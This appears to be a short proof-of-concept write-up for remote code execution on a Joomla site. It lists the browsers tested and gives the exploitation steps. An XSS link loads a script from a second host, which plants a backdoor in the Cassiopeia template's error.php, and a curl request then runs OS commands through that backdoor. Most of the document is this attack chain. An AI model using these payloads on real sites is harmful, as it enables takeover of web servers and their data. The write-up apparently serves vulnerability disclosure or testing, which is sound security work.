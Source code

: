 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. victim user (with administrative privileges) logs in

http://192.168.5.19/administrator

2. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/patchFileJoomla.js></script>
```

3. execute OS command

```
curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
```

4. [optional] restore file

*Joomla -> System -> [Templates] Site Templates -> Cassiopeia Details and Files -> [tab] Editor -> /templlates/cassiopeia - error.php -> (remove backdoor) -> Save & Close*

## Screenshots

![Image](screenshots/Joomla_-_patch_file_-_1-1.png)
